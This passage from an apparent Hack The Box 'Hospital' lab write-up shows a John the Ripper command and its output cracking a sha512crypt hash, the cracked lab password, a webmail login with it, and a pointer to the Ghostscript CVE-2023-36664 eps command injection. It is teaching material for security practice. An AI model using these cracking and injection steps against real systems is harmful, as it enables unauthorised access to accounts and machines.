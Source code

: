 Now to launch our john the ripper with the specified format and the classic `rockyou.txt` :

```
kyll@kyll-Latitude-3520:~/Desktop/code_folder/Tools$ john --format=sha512crypt --wordlist=rockyou.txt ../HTB/hospital/hash 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:12 0.71% (ETA: 00:26:20) 0g/s 9841p/s 9841c/s 9841C/s bratpack..042579
qwe123!@#        (drwilliams)     
1g 0:00:00:21 DONE (2024-02-26 23:58) 0g/s 9819p/s 9819c/s 9819C/s sexysis..pakala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We've found drwilliams's password : qwe123!@#

## Escaping WSL jail

Now that we've found the password and a username, we can try and use those to get into the mail server that we've found earlier. Note that this is a mailserver so the username will be mail addresses so they'll finish with `@domain.tld`. The domain being `hospital.htb`, the username becomes `drwilliams@hospital.htb`. Let's try and login :

<img src="/assets/img/HospitalWriteup/hosp10.png" alt="fuck alt attributes" style="float: left; margin-right: 10px;" width="700"/>

We were able to login as drwilliams! We check out the only email from Dr Brown sent saying that he is waiting for a `.eps` file to be used with GhostScript. If we checkout `GhostScript exploit` on Google, we can see that [the CVE-2023-36664](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection) exists and that it lets us do some injection into an eps file that will be executed when launched with GhostScript. 
